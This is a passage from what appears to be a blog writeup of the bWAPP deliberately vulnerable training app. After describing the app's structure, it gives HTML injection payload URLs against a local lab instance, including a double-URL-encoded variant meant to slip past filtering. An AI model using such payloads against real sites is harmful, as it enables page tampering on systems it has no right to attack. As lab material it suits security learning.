 ```yaml
---
title:      "bWAPP writeup"
date:       2019-03-17
tags:       writeup
category:	  Cybersecurity
comment:    header sizes are 2000x750
header:
  image:    assets/images/2019-03-17-bwapp-writeup/header.jpg
  teaser:   assets/images/2019-03-17-bwapp-writeup/header.jpg
  caption:  "Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


bWAPP is a PHP application specifically designed to be exploited. It contains many bugs and vulnerabilities, and allows you to select the security level, similar to the well known Damn Vulnerable Web Application. You can download it [here](http://itsecgames.com/).

The way this writeup is structured follows the vulnerability list in bWAPP itself. There are a total of 10 categories (from A1 to A10) which correspond to the [OWASP Top 10 Application Security Risks](https://www.owasp.org/index.php/Top_10-2017_Top_10), plus an additional other two categories.

Inside each A-category, there are multiple vulnerabilities to exploit, which are further subdivided in difficulty levels (low, medium, or high). Generally speaking, all vulnerabilities that work in "high" would also work in a "low" setting, but not the other way around. In this writeup, I will only publish the highest level I was able to exploit unless the lower levels are relevant (for example, because "low" and "medium" are essentially the same exploit, but in the "medium" setting I used some form of obfuscation to fool protection measures).

This is a small subset of vulnerabilities I have found interesting while playing around with the machine. There are some vulnerabilities that require you to use [bee-box](https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/), because it bundles other services, apart from an HTTP webapp, such as FTP or Samba. In my case, I used the [Vulnerable Web Apps](http://www.vulnerablewebapps.org/) project, which collects and bundles many different pentesting training apps in a single VM, therefore, the vulnerabilities that required me to use bee-box were unavailable to me.

# A1 - Injection

## HTML Injection - Reflected (GET)

### Low

```
http://10.99.50.177/bWAPP/htmli_get.php?firstname=%3Ch1%3EInjection!%3C%2Fh1%3E&lastname=%3Ch2%3Epwnd%3C%2Fh2%3E&form=submit
```

### Medium

```
http://10.99.50.177/bWAPP/htmli_get.php?firstname=%253Ch1%253EMedium%253C%252Fh1%253E&lastname=%253Ch2%253EMedium%253C%252Fh2%253E&form=submit
```
